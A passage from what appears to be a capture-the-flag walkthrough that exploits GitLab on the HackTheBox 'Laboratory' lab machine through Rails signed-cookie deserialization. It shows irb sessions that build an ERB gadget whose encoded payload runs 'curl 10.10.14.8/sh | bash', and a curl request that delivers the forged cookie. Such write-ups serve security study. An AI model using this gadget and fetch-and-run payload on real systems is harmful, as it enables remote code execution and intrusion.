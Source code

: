 Interestingly, the next two steps each run the payload. In this case, as I haven’t started a webserver on my host, it fails to connect all three times:

```

irb(main):006:0> depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.8 port 80: Connection refused
=> ""
irb(main):007:0> cookies.signed[:cookie] = depr
DEPRECATION WARNING: @result is deprecated! Call result.is_a? instead of @result.is_a?. Args: [Hash] (called from irb_binding at (irb):7)
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.8 port 80: Connection refused
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.8 port 80: Connection refused
=> ""

```

Now print the payload:

```

irb(main):008:0> puts cookies[:cookie]
BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiWyNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIDEwLjEwLjE0Ljgvc2ggfCBiYXNoYCApLnRvX3MpOyBfZXJib3V0BjoGRUY6DkBlbmNvZGluZ0l1Og1FbmNvZGluZwpVVEYtOAY7CkY6E0Bmcm96ZW5fc3RyaW5nMDoOQGZpbGVuYW1lMDoMQGxpbmVub2kAOgxAbWV0aG9kOgtyZXN1bHQ6CUB2YXJJIgxAcmVzdWx0BjsKVDoQQGRlcHJlY2F0b3JJdTofQWN0aXZlU3VwcG9ydDo6RGVwcmVjYXRpb24ABjsKVA==--05460c0d9545ac9d886594b7251a19811d91d6be
=> nil

```

#### Send Payload

I’ll start a Python webserver, and use `curl` to send the payload. I need `-k` to ignore the invalid certificate:

```

oxdf@parrot$ curl -k https://git.laboratory.htb/users/sign_in --cookie "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiWyNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIDEwLjEwLjE0Ljgvc2ggfCBiYXNoYCApLnRvX3MpOyBfZXJib3V0BjoGRUY6DkBlbmNvZGluZ0l1Og1FbmNvZGluZwpVVEYtOAY7CkY6E0Bmcm96ZW5fc3RyaW5nMDoOQGZpbGVuYW1lMDoMQGxpbmVub2kAOgxAbWV0aG9kOgtyZXN1bHQ6CUB2YXJJIgxAcmVzdWx0BjsKVDoQQGRlcHJlY2F0b3JJdTofQWN0aXZlU3VwcG9ydDo6RGVwcmVjYXRpb24ABjsKVA==--05460c0d9545ac9d886594b7251a19811d91d6be"
...[snip]...

```
